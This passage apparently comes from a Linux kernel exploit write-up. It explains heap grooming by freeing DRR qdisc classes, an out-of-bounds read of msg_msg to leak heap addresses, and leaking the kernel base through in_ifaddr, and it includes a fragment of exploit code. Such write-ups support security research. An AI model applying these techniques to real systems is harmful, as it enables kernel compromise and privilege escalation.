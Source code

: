 So, whether the maximum number of pages hung on per cpu partial is [30](https://elixir.bootlin.com/linux/v5.15.94/source/mm/slub.c#L4025) or [8](https://elixir.bootlin.com/linux/v6.1.72/source/mm/slub.c#L4154), the total I set is `SPRAY_PAGE_NUM + DRAIN_PAGE_NUM = 56`, which will eventually be returned to the buddy system:

```c
static void free_drr_classes(void)
{
    int i;

    for (i = 1; i <= SPRAY_PAGE_NUM * ONEPAGE_K128_NUM; i += ONEPAGE_K128_NUM) {
        send_del_class(U_QDISC_HANDLE | (i));
    }

    for (i = 1; i <= DRAIN_PAGE_NUM * ONEPAGE_K128_NUM; i += ONEPAGE_K128_NUM) {
        send_del_class(U_QDISC_HANDLE | (SPRAY_PAGE_NUM * ONEPAGE_K128_NUM + i));
    }

    for (i = 1; i <= SPRAY_PAGE_NUM * ONEPAGE_K128_NUM; i++) {
        if ((i % ONEPAGE_K128_NUM) == 1)
            continue;
        send_del_class(U_QDISC_HANDLE | (i));
    }

    printf("[+] Free drr_class to buddy done\n");
}
```

## info leak

Now, by increasing m_ts to perform out-of-bound reading of msg_msg, we can place qid information in the content when generating msg_msg in advance, so we can know which msg_queue the adjacent msg_msg belongs to. In msgsnd, the sent msg_msg will be linked into the same `msq->q_messages`, so a new larger msg_msg with rop payload can be added, and after out-of-bound reading, the heap address with controllable content can be leaked:

```c
	if (!pipelined_send(msq, msg, &wake_q)) {
		/* no one is waiting for this message, enqueue it */
		list_add_tail(&msg->m_list, &msq->q_messages);
		msq->q_cbytes += msgsz;
		msq->q_qnum++;
		percpu_counter_add_local(&ns->percpu_msg_bytes, msgsz);
		percpu_counter_add_local(&ns->percpu_msg_hdrs, 1);
	}
```

As for leaking kernel base addresses, first look for a usable structure in kmalloc-cg-128, and refer to the [method](https://veritas501.github.io/2022_08_11_%E5%9F%BA%E4%BA%8EUSMA%E7%9A%84%E5%86%85%E6%A0%B8%E9%80%9A%E7%94%A8EXP%E7%BC%96%E5%86%99%E6%80%9D%E8%B7%AF%E5%9C%A8%20CVE-2022-34918%20%E4%B8%8A%E7%9A%84%E5%AE%9E%E8%B7%B5/#0x00-%E7%AE%80%E5%8D%95%E5%9B%9E%E9%A1%BE%E4%B8%8A%E6%AC%A1%E7%9A%84%E6%89%8B%E6%B3%95) of using user_key_payload for information leakage. Use CodeQL to query suitable structures. Although not many, the [in_ifaddr](https://elixir.bootlin.com/linux/v6.1.72/source/include/linux/inetdevice.h#L145) structure can be used. By deleting the IP address on the interface with [RTM_NEWADDR](https://elixir.bootlin.com/linux/v6.1.72/source/net/ipv4/devinet.c#L2789), the address of inet_rcu_free_ifa is written with [call_rcu](https://blog.csdn.net/zhoutaopower/article/details/86646688), and the kernel base address can be leaked again with out-of-bound reading.
